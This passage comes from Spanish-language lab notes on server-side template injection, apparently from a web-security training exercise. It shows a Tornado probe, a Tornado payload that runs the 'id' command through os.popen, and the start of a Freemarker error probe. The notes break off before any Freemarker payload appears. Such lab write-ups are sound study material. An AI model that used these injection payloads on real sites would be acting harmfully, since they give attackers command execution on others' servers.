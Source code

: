 si no enviamos nada o un objeto que no existe generaremos un error:

![[Pasted image 20230211074215.png]]

![[Pasted image 20230211074239.png]]

pudimos descubrir que el motor de plantilla es tornado, entonces podemos crear el siguiente payload:

```bash
user.name}}{{7*7}}
```

reemplazando en el codigo quedara asi:

```html
<section class="comment">
	<p>
		<img src="/resources/images/avatarDefault.svg" class="avatar">
		{{user.name}}{{7*7}} | {{comment.date}}
	</p>
	<p>
		{{comment.body}}
	</p>
</section>
```

![[Pasted image 20230211074437.png]]

![[Pasted image 20230211074456.png]]

vemos que funciona, podemos ejecutar comandos:

```bash
user.name}}{%import os%}{{os.popen('id').read()}}
```

![[Pasted image 20230211074639.png]]

### SSTI Freemarker

Una pagina nos permite editar un template usando la sintxis de su plantilla:

![[Pasted image 20230211162607.png]]

para determinar que plantilla esta usando debemos generar un error y que nos muestre algo de informacion, la idea es probar los caracteres especiales como variables, este funciono:

```bash
${$}
```

![[Pasted image 20230211162816.png]]

con esto ya podemos buscar un payload para dicha plantilla:
